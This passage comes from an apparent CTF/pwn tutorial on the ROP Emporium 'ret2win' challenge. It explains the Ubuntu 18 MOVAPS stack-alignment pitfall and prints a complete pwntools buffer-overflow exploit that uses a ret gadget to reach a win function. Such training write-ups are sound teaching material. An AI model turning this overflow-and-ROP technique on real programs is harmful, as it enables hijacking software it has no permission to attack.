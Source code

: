 ![Desktop View](/assets/posts/pwn/image23.png){: width="500" height="500" }

But when you run the script, it does not give you the flag. Why is that? This is due to `MOVAPS` issue which is a common issue in `Ubuntu 18`. Read more [here](https://ropemporium.com/guide.html#Common%20pitfalls).

To fix this, we need to add `return` address before the `binary.functions.win`. We can take any return address in the binary.

![Desktop View](/assets/posts/pwn/image24.png){: width="500" height="500" }

Hence, the final script will be:

```python
from pwn import *

context.binary = binary = ELF("./ret2win")

io = process()

# connect remotely, ip and port number
# p = remote("1.1.1.1", 9000)

# the address of the ret2win function, you can use hexa representation as well
ret2win_address = binary.symbols.ret2win
# ret2win_address = 0x400756

return_address = 0x400755

# craft the payload to send to the binary
payload = flat(b'A' * 40, return_address, ret2win_address)

# send the payload
io.sendline(payload)

# interact with the terminal (like cat, ls, cd and more)
io.interactive()
```
